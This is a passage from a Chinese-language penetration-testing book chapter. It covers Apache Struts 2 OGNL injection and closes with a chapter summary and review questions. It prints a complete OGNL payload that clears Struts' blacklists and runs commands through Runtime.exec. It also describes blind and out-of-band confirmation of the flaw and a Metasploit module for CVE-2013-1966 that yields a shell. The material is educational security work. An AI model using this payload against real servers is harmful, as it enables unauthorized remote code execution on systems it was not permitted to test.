一旦`clear()`方法处理完毕，我们已经清除了黑名单，我们现在可以使用`setMemberAccess()`方法将`MemberAccess`设置为`DEFAULT_MEMBER_ACCESS`**。**参考有效负载中的以下突出显示文本：

```
${(*#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS*).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

现在我们可以访问`DEFAULT_MEMBER_ACCESS`对象了，我们可以调用 Java 公共实用程序包中的任何类、方法和对象，以便在 OGNL 中运行。在本例中，我们将使用`Runtime().exec()`方法来执行我们的命令（`#a=@java.lang.Runtime@getRuntime().exec('id')`，并且，为了在响应中打印命令执行输出，我们将使用`getinputStream()`方法，正如您在有效负载的最后两行中所看到的：

```
${(*#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS*).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

现在我们对有效负载有了更好的了解，让我们在请求中使用有效负载，可以在下面的屏幕截图中看到：



服务器将处理 OGNL 表达式，在授予对`DEFAULT_MEMBER_ACCESS`对象的访问权后，将调用我们的`Runtime().exec()`方法，该方法将执行我们的命令：


`'id'`命令的输出将打印在`Location`HTTP 响应头中，如前面的屏幕截图所示。现在我们已经了解了 OGNL 表达式及其手动利用，让我们尝试使用 Metasploit 对其进行利用。

# 通过 OGNL 注入测试盲远程代码执行

这是另一种情况，服务器易受 Apache Struts 2**远程代码执行**（**RCE**漏洞）攻击，但代码执行响应由于某种原因被隐藏。在这样的场景中，我们仍然可以使用`sleep()`函数确认 RCE 漏洞。与基于时间的 SQL 注入中使用的`sleep()`函数类似，我们可以使用此函数检查响应时间。我们已经执行了 2000 毫秒的`sleep()`功能，如下图所示：


要确认该漏洞，我们只需查看服务器的响应时间，即服务器处理请求并向我们发送响应所用的时间。对于这个场景，我们执行了 2000 毫秒的`sleep()`功能，服务器在 2010 毫秒响应了请求，如下面的屏幕截图所示：


我们应该始终通过将时间更改为不同的值来检查漏洞的存在。

# OGNL 带外注入测试

确认该漏洞的另一种方法是执行命令，该命令将与组织外部的我们自己的服务器进行交互。要检查 OGNL**带外**（**OOB**）注入，我们可以执行一个简单的`ping`命令，如下截图所示：



在将负载发送到服务器之前，我们需要使用`tcpdump`监听我们服务器的面向公众的界面。我们可以执行`tcpdump icmp host <ip>`命令来过滤服务器上的 ICMP`echo request`和`echo reply`数据包。我们需要这样做，以便在执行有效负载时，我们可以在服务器上获得`ping`echo 请求，如以下屏幕截图所示：


对于 OOB 交互，我们可以尝试不同的协议，例如 HTTP、FTP、SSH 和 DNS。如果我们无法获得响应的输出（盲）并检查是否可以获得反向 shell 连接，OOB 注入会有所帮助。

# 使用 Metasploit 开发 Struts 2

现在，我们已经手动利用了 Struts 2 的漏洞，并且清楚地理解了这些概念，我们将看到使用 Metasploit 利用相同的漏洞是多么容易。使用 Metasploit 使利用变得更加容易。我们可以通过执行以下步骤搜索 Struts 上的所有可用模块：

1.  在 Metasploit 控制台中搜索`struts`，如图所示：


2.  下面是一个运行 ApacheStruts 的演示 web 应用。此应用易受`S2-013`漏洞（CVE-2013-1966）的攻击。让我们看看如何使用 Metasploit 利用此漏洞：



3.  我们通过在`msfconsole`中键入以下命令来加载 Metasploit 漏洞：

```
use/exploit/multi/http/struts_include_params
```

4.  通过输入`show options`命令，我们可以看到可用的选项，如图所示：


设置选项并运行漏洞攻击将为我们提供命令 shell。在没有反向 shell 连接的情况下，我们需要执行一个简单的出口测试，以检查是否允许所有端口都来自目标服务器（出站连接）。如果出站连接被防火墙阻止，我们可以尝试通过 HTTP 隧道获得绑定连接。

# 总结

在本章中，我们介绍了 Tomcat 的基础知识，并阅读了它的体系结构和文件结构。然后，我们继续研究识别 Tomcat 和检测版本号的不同技术。接下来，我们研究了使用 JSP 和 WAR shell 上传对 Tomcat 的利用。在本章末尾，我们介绍了 ApacheStruts、OGNL 和 Tomcat 的开发。

在下一章中，我们将学习如何笔试另一个著名的技术平台 Jenkins。

# 问题

1.  在黑盒渗透测试中，我们如何公开识别 Tomcat 服务器？

2.  ApacheTomcat 服务器上是否始终存在**`Changelog.html`**文件？

3.  我已经成功地将 JSP 外壳上传到 ApacheTomcat 服务器。但是，我无法访问它。有什么问题吗？

4.  我发现了一个 OGNL OOB 注射。我如何进一步利用这一点？

# 进一步阅读

以下链接可作为理解 Apache Tomcat 和 CVE 2019-0232 的进一步参考：

*   [https://blog.trendmicro.com/trendlabs-security-intelligence/uncovering-cve-2019-0232-a-remote-code-execution-vulnerability-in-apache-tomcat/](https://blog.trendmicro.com/trendlabs-security-intelligence/uncovering-cve-2019-0232-a-remote-code-execution-vulnerability-in-apache-tomcat/)
*   [https://github.com/apache/tomcat](https://github.com/apache/tomcat)**